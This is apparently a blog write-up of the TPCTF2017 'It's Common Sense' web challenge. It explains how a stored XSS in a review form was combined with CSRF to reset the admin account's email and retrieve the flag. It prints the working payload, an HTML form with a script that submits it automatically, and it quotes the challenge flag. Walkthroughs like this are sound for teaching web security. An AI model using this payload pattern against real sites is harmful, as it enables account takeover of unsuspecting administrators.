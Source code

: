 ```yaml
---
layout: post
title:  "TPCTF2017 - It's Common Sense"
author: "G0d3l"
tags: tpctf2017 web xss csrf
---
```


>  We found this site: [Common Sense Reviews](https://commonsensereviews.tpctf.tk/)  
We think the site owners are related to Pirates. Please retrieve the admin password.  
Author: Steven Su


## Steps
- After making an account, we can access "/account" page. The page contains two forms one for submitting a review and the second for resetting the password.
- First idea was to try an XSS on the review form; and then to steal the admin cookie. This didn't work because the cookies were protected with a http only flag.
- We searched for ways to bypass the http only protection but in vain, so we concluded that it wasn't the goal of the task.
- After reading the description again, we tried a simple CSRF attack with an XSS payload to reset the admin password and the flag was sent to our email.

## XSS Payload
{% highlight html %}
<form action="/account" method="POST" name="newpwd">
	<label>Email</label><br/>
	<input required type="text" name="email" value="[REDACTED]"/>
	<input type="hidden" value="Send Request" name="formbtn" />
	<input type="submit" value="Send Request" onclick="document.getElementById('newpwd').submit();"/>
</form>
<script>document.newpwd.submit();</script>
{% endhighlight %}


After waiting a lil bit we got this email:
> Reset Your Password  
  Congratulations! Normally, you would've reset the administrators password. For the purposes of this challenge, the flag is tpctf{D1D_Y0U_N0t1c3_Common_Sense_Reviews_1s_P4R7_0F_CSRF_19210jka010920aff}
